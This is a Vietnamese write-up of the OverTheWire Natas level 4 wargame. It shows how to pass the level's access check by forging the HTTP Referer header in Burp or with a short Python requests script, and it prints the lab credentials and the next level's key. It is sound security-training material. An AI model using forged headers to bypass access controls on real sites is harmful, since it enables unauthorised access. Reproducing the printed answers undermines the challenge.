


# Natas Level 4

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas4.natas.labs.overthewire.org**     
**Credential: natas4:*QryZXc2e0zahULdHrtHxzyYkj59kUxLQ***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:


2. Theo mô tả của bài thì có thể server sẽ dựa trên referer header để check cho phép truy cập.    
==>Vào Burp chèn 1 referer header ```http://natas5.natas.labs.overthewire.org/``` là xong:    



-Hoặc cũng có thể dùng 1 script Python đơn giản như sau:    
```bash
import requests

url = 'http://natas4.natas.labs.overthewire.org/index.php'
referer = 'http://natas5.natas.labs.overthewire.org/'

s = requests.Session()
s.auth = ('natas4', 'QryZXc2e0zahULdHrtHxzyYkj59kUxLQ')
s.headers.update({'referer': referer})

r = s.get(url)

print(r.text)
```

## Kiến thức cần biết:
- ```Referer``` header là 1 HTTP Header mà trình duyệt (hoặc client) gửi kèm trong mỗi request để server biết user đã truy cập từ đâu.

## 📌 Key: ```0n35PkggAPm2zbEpOU802c0x0Msn1ToK```